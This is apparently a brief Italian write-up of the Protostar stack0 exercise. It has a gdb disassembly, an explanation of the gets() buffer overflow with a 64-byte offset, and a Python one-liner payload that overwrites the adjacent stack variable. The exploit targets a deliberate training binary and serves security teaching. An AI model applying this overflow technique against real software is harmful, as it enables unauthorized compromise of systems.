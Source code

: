 ````
proto@b92cf65f7998:/opt/protostar/bin$ gdb -q                                                      
(gdb) file stack0 
Reading symbols from stack0...done.
(gdb) disass main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x60,%esp
   0x080483fd <+9>:	movl   $0x0,0x5c(%esp)
   0x08048405 <+17>:	lea    0x1c(%esp),%eax
   0x08048409 <+21>:	mov    %eax,(%esp)
   0x0804840c <+24>:	call   0x804830c <gets@plt>
   0x08048411 <+29>:	mov    0x5c(%esp),%eax
   0x08048415 <+33>:	test   %eax,%eax
   0x08048417 <+35>:	je     0x8048427 <main+51>
   0x08048419 <+37>:	movl   $0x8048500,(%esp)
   0x08048420 <+44>:	call   0x804832c <puts@plt>
   0x08048425 <+49>:	jmp    0x8048433 <main+63>
   0x08048427 <+51>:	movl   $0x8048529,(%esp)
   0x0804842e <+58>:	call   0x804832c <puts@plt>
   0x08048433 <+63>:	leave  
   0x08048434 <+64>:	ret
````
Nota bene che viene usata nel codice la gets()
````
0x0804840c <+24>:	call   0x804830c <gets@plt>
````
La gets viene messa a puntare dove inizia la variabile buffer, che risiede su 0x5c, quello che viene passato a gets è 0x1c, quindi per trovare la lunghezza del buffer fare 0x5c - 0x1c = 64
Quindi l'idea di buff overflow è A * 64 + 1
payload di attacco: 
````
python3 -c 'print("A"*64 + str(1))' | ./stack0
````

